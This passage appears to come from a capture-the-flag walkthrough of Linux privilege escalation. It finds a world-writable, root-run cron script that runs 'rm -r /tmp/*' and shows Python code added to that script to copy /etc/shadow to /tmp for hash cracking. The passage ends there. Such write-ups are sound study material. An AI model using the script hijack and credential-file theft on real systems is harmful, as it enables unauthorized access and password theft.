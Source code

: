 ``` plain
$ ls /var/log
alternatives.log    cronlog	  fail2ban.log	  udev
alternatives.log.1  dist-upgrade  fail2ban.log.1  upstart
apache2		    dmesg	  faillog	  vmware-tools-upgrader.log
apt		    dmesg.0	  fsck		  vsftpd.log
auth.log	    dmesg.1.gz	  installer	  vsftpd.log.1
auth.log.1	    dmesg.2.gz	  kern.log	  wtmp
boot.log	    dmesg.3.gz	  kern.log.1	  wtmp.1
bootstrap.log	    dmesg.4.gz	  lastlog
btmp		    dpkg.log	  syslog
btmp.1		    dpkg.log.1	  syslog.1
$ cd /var/log
$ cat cronlog
*/2 * * * * cleaner.py
```

So, that cleaner.py file seems to be a likely culprit. I searched for it and I found something interesting:

``` plain
$ locate cleaner.py
/lib/log/cleaner.py
/var/tmp/cleaner.py.swp
$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /tmp/* ')
except:
	sys.exit()
$ cat /var/tmp/cleaner.py.swp
crontab for cleaner.py successful
```

Ok, so this cleaner deletes all the contents of the <code>/tmp/</code> folder. The great part about it though, is the wonderful permissions it has:

``` plain
$ ls -l /lib/log/cleaner.py
-rwxrwxrwx 1 root root 96 Aug 13 00:13 /lib/log/cleaner.py
```

So we can modify it to help in compromising the system. First thing I did was add the following code to copy the contents of the <code>/etc/shadow</code> file to a txt file in the */tmp/* folder:

``` python
with open('/etc/shadow', 'r') as shadow:
    juicy = shadow.read()
with open('/tmp/hashes.txt', 'a') as hashes:
    hashes.write(juicy)
```

Now we have the password hashes and we could crack them if we wanted:

